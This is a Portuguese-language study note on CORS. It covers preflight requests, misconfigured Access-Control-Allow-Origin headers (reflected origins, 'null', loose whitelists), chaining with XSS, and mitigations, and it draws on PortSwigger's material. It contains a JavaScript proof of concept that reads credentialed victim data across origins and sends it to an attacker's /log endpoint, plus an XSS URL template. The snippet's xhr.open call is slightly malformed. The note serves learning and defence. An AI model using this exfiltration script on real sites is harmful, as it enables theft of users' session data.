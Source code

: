 #web #fundamentals #fundamentals/web 


O CORS ou **Cross-origin resource sharing** é um mecanismo presente nos navegadores para habilitar o acesso a recursos de outros domínios ou outras fontes. Ele extende outro mecanismo o [[SOP]].

## CORS e SOP

O SOP é um mecanismo bem restritivo e muitos websites interajem com outros websites, seja de subdomínios ou websites de terceiros. Uma maneira de "relaxar" essa interação é através do CORS.

O CORS utilizada um conjunto de headers HTTP para definir as origens confiáveis, como por exemplo:
* **Access-Control-Allow-Origin** -> quando um servidor web recebe uma requisição HTTP de origem diferente, ele responde incluindo esse header na resposta.
* **Access-Control-Allow-Credentials** -> o comportamento padrão de requisições CORS são de requisições onde não é passado as credenciais, entretanto o servidor pode permitir que o JS na origem inclua as credenciais na requisição.

## Pre-flight

É uma requisição CORS que utiliza 3 headers HTTP:

```
OPTIONS /resource/foo
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: https://foo.bar.org
```

Essa requisição é enviada automaticamente para o servidor, perguntando ao servidor se é possível utilizar requisições como por exemplo o **DELETE**.

Se o servidor permitir, ele irá retorna a resposta com seguinte cabeçalho:

```
HTTP/1.1 204 No Content
Connection: keep-alive
Access-Control-Allow-Origin: https://foo.bar.org
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 86400
```

## CORS e CSRF

O CORS não protege contra [[CSRF]], apenas flexibiliza a utilização do SOP, porém, se mal configurado pode ser uma ameaça a CSRF. 

## Vulnerabilidades

### Header ACAO gerado pelo servidor

Algumas aplicações permitem que qualquer domínio acesse seus recursos. Uma forma de testar isto é, modificando o `origin` e vendo a resposta do servidor.

| Requisição                                      | Resposta                                      |
| ------------------------------------------------ | --------------------------------------------- |
| `GET /sensitive-victim-data HTTP/1.1`            | `HTTP/1.1 200 OK`                             |
| `Host: vulnerable-website.com`                   | `Access-Control-Allow-Origin: https://malicious-website.com` |
| `Origin: https://malicious-website.com`          | `Access-Control-Allow-Credentials: true`     |
| `Cookie: sessionid=...`                          | ...                                           |

Se a informação retorna dados sensíveis como dados de sessão, o *hacker* pode enviar um website fake para a vítima para colher esses dados, usando por exemplo o script abaixo:

```html
<script>
    var xhr = new XMLHttpRequest();
    var url = "https://site-legitimo";
            
    xhr.onreadystatechange = function() {
       if(xhr.readyState === XMLHttpRequest.DONE) {
            fetch("/log?key=" + xhr.responseText);
	    }
    }
    xhr.open("GET", url, "/sensitive-victim-data", true);
    xhr.withCredentials = true;
    xhr.send(null);
</script>
```

### Whitelists

Um das formas de permitir determinados domínios, é criando uma lista de domínios permitidos. Algumas aplicações podem criar essas listas para permitir o acesso de todos os subdomínios (incluindo futuros subdomínios que não existe) por meio de regex ou adicionando prefixos e sufixos na url. Qualquer erro nessa implementação pode garantir acesso de domínios externos.

Outro caso, é o uso do valor `null` na *whitelist* para dar acesso ao ambiente de desenvolvimento local da aplicação.

| Requisição                                      | Resposta                                      |
| ------------------------------------------------ | --------------------------------------------- |
| `GET /sensitive-victim-data HTTP/1.1`            | `HTTP/1.1 200 OK`                             |
| `Host: vulnerable-website.com`                   | `Access-Control-Allow-Origin: null` |
| `Origin: null`                                      | `Access-Control-Allow-Credentials: true`     |

Essa situação é semelhante a situação anterior.

### XSS

Mesmo que o CORS esteja configurado certo, se um website confiável é vulnerável a [[XSS]], o *hacker* pode usar isso ao seu favor, podendo pegar uma API key, usando a url:

```
https://subdomain.site-vulneravel.com/?xss=<script>aquele codigo acima do cors por exemplo</script>
```
## Como mitigar

* Evite usar o header `Access-Control-Allow-Origin: Null` e `Access-Control-Allow-Origin:*`
* Acesse apenas websites confiáveis

## Referência

https://portswigger.net/web-security/cors#vulnerabilities-arising-from-cors-configuration-issues